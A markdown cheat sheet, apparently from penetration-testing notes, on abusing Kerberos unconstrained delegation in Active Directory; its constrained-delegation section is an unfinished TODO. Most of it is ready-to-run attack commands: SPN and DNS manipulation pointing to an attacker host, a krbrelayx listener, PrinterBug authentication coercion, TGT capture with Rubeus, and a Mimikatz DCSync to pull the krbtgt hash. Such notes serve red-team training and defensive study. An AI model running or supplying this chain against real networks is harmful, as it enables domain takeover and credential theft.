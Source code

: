 # Overview
>In theory, Kerberos delegations allow services to access other services on behalf of domain users.
>There are three types of delegations : 
>- **Unconstrained delegations** (KUD): a service can impersonate users on any other service.
>- **Constrained delegations** (KCD): a service can impersonate users on a set of services
>- **Resource based constrained delegations** (RBCD) : a set of services can impersonate users on a service
>Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding constrained delegations and rbcd, those types of delegation rely on Kerberos extensions called [Service-for-User](https://www.thehacker.recipes/ad/movement/kerberos/#service-for-user-extensions) (S4U).

# Reconnaissance
## Linux
```bash
findDelegation.py "DOMAIN"/"USER":"PASSWORD"
```

## Windows
```powershell
# With PowerView
Get-ADComputer "Account" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount
```

# Exploitation
## Unconstrained 
### Linux
```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup attacker.DOMAIN_FQDN DomainController

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
# 4.b. or supply the right Kerberos long-term key directly
krbrelayx.py -aesKey aes256-cts-hmac-sha1-96-VALUE

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

# 6. Check if it works. Krbrelayx should have received and decrypted a ticket, extracting the coerced principal's TGT.
# There should be a krbtgt ccache file in the current directory. And it can be used by
export KRB5CCNAME=`pwd`/'krbtgt.ccache'
```

### Windows
```powershell
# Extract the TGT
Rubeus.exe monitor /interval:5

# Use the extracted TGT to request a Service Ticket for another service
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt

# The TGT is injected, access service to extract krbtgt hash in Mimikatz
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```

## Constrained
TODO